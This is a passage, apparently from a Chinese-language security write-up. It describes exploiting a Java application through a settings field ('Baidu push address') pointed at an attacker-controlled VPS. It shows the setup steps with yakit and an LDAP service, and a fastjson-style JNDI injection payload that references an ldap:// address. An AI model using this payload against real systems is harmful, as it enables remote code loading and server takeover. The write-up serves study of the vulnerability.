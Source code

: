先删掉好了

[![](assets/1709022863-5ff0415cb83fc0a49ec5c9356a263a05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191105-bbccee54-d497-1.png)

现在环境就 OK 了，我们使用 yakit 起一个`ldap`服务

[![](assets/1709022863-b3b2f8b2cc2ed075bb1d22577f14cc13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191124-c7306bcc-d497-1.png)

接着 vps 起一个 web 服务返回 payload

```plain
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://127.0.0.1:8085/uRKFmZXL"], "Realms":[""]}
```

可以用 python，我是直接用的宝塔

接着就百度推送地址改成我们 vps 地址就 ok
